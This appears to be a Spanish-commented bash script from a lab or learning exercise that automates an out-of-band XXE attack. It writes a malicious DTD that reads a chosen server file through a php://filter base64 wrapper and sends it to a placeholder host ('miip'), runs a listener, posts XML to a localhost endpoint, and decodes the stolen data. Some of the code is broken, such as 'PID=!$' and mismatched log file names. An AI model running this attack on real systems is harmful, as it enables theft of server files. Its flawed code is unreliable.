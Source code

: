 # XXE_OOB

#!/bin/bash

echo -ne "\n[+] Introduce el archivo a leer: " && read -r miarchivo
<!--#e para aplicar el salto de linea (caracteres especiales
#-n para poder meter el input en la misma linea que el echo
# read lee el input del usuari y lo guarda en mi rchivo
#-r para que acepte espacios y de todo, guarde el input literal-->

malicious_dtd=""" # triple comilla para pillar varias lineas de codigo
<!--#ojo por que hayque escapar las comillas con \-->
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$miarchivo\">
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://miip/?file=%file; '>\"> 
<!--#ojo por que al crear una entidad dentro de otra entidad, hay que representarla en hexadecimal
# para representar % en hexadecimal se deberia de poner %#x y luego su valor en hexadecimal y luego ;, que es 25 -> &#x25;
# exfil es una entidad dentro de otra 
# ahora habria que llamar a las entidades eval y exfil para que tdo sea ejecutado.-->
%eval;
%exfil;
<!--#file no hace falta por que se llama desde exfil-->
"""

echo $malicious_dtd > malicious.dtd
<!--#tenemos que volcar todo en el archivo, por que en la peticion se leera de ese archivo-->

python3 -m http.server 80 &>respuesta &
<!--#mandamos el sterr y el stdout a respuesta y lo ponemos en segundo plano-->
PID=!$
<!--#!$ hace referencia l elemento anterior y si ha sido puesto en segundo plano se guarda si PID-->
sleep 1 
<!--#daremos unos segundos a que se levnate el servidor-->


<!--#aqui meteremos la peticion, podemos obtenerla dl raw de burpsuite, por ejemplo:-->

curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?><root><name>Juan</name><tel>6666666666</tel><email>juan@mola.com</email><password>juan123</password></root>'
<!--#s , silencioso, no mostrara output
#-X , indica el metodo, en este caso por post
#process.php es a donde se hace la petición
#-d , incluir datos que queramos que viajen con la peticion-->

cat reponse | grep -oP "/?file=\K[^-*\s]+" | base64 -d

kill -9 $PID
<!--#matamos l proceso del PID-->
wait $PID 2>/dev/null
<!--#speraremos a que muera el PID y redirigiremos el stout al dev null para no ver el process killed-->




<!--#Ahora se guarda y cuando se ejecute, epodremos hacer cat response  ver el output guardado-->



